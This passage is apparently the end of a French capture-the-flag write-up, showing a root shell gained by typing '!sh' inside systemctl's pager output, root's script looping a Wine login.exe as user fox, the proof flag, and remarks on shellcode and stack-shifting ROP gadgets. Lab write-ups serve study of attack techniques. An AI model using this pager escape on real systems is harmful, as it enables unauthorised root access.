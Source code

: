 ```bash
systemd-remount-fs.service                                                               loaded active exited    Remount Root and Kernel File Systems                              
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

Et du côté de root :

```bash
# cat win
while true
 do
  runuser -l fox -c 'cd ~/.wine/drive_c/users/fox && wine login.exe'
  sleep 3
 done
# cat proof.txt
f632f5eaffa5607c961e22ba40291ab7
```

J'ai bien galéré avec ces histoires de shellcode. Il aurait peut être été possible de faire fonctionner la première technique et faisant d'abord exécuter des gadgets pour décaler la stack (sub esp + ret).
